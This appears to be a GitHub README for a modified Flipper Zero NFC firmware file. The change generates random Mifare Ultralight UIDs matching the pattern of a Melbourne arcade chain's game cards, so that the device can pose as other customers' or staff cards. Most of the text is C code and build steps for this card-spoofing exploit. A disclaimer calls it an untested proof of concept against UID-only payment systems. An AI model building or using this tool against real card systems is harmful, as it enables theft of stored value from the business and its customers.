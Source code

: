 # flipper_NFC_gamecard_hack

In Melbourne AU we have a popular arcade chain that uses the EMBED card system with Mifare ULTRALIGHT cards for game cards. I did some checks with the small pool of cards I have and found the last 2 octets are not changing from 0x00.

This is a modded file for the built in flipper NFC app that adds the option to create a random game card based off my findings. In theory it should work but who knows. I dont think it checks data stored on the card.

DO NOT USE THIS TO STEAL OTHER PEOPLES MONEY. THIS IS A PROOF OF CONCEPT TO SHOW THE INSECURITY OF ONLY USING THE UID IN A CARD BASED MONEY SYSTEM. I HAVE NOT TESTED THIS AT ALL. THE CHANCE OF YOU FINDING A CARD THAT HAS MONEY, IS A STAFF, A TECH OR A VALID CARD IS SUPER LOW. YOU WILL PROBABLY GET SPOTTED BY A STAFF MEMBER IF YOU ARE TRYING THIS. IT IS NOT MY RESPONSIBILITY IF YOU GET CAUGHT, FINED, BANNED, JAILED OR THE EARTH OPENS UP AND SWALLOWS YOU WHOLE.


Instructions:
Copy this file over the top of the original file and build the firmware. tested with unleashed 018

Do not copy to the flipper. nothing will change.


My changes to the original file are below.

Added: 

```
static void nfc_generate_mf_tz_uid(uint8_t* uid) {
    uid[0] = NXP_MANUFACTURER_ID;
    furi_hal_random_fill_buf(&uid[1], 6);
    // Timezone use 00 on last 2 octets with the sample size ive tested. 
    uid[5] = 0x00;
    uid[6] = 0x00;
}
```

```
static void nfc_generate_mf_tz_common(NfcDeviceData* data) {
    data->nfc_data.type = FuriHalNfcTypeA;
    data->nfc_data.interface = FuriHalNfcInterfaceRf;
    data->nfc_data.uid_len = 7;
    nfc_generate_mf_tz_uid(data->nfc_data.uid);
    data->nfc_data.atqa[0] = 0x44;
    data->nfc_data.atqa[1] = 0x00;
    data->nfc_data.sak = 0x00;
    data->protocol = NfcDeviceProtocolMifareUl;
}
```

```
static void nfc_generate_mf_tz_orig(NfcDeviceData* data) {
    nfc_generate_common_start(data);
    nfc_generate_mf_tz_common(data);

    MfUltralightData* mful = &data->mf_ul_data;
    mful->type = MfUltralightTypeUnknown;
    mful->data_size = 16 * 4;
    mful->data_read = mful->data_size;
    nfc_generate_mf_ul_copy_uid_with_bcc(data);
    // TODO: what's internal byte on page 2?
    memset(&mful->data[4 * 4], 0xFF, 4);
}
```

```
static const NfcGenerator mf_tz_generator = {
    .name = "Mifare (Timezone)",
    .generator_func = nfc_generate_mf_tz_orig,
    .next_scene = NfcSceneMfUltralightMenu,
};
```

And added ``` &mf_tz_generator, ``` to ``` const NfcGenerator* const nfc_generators[] = { ```
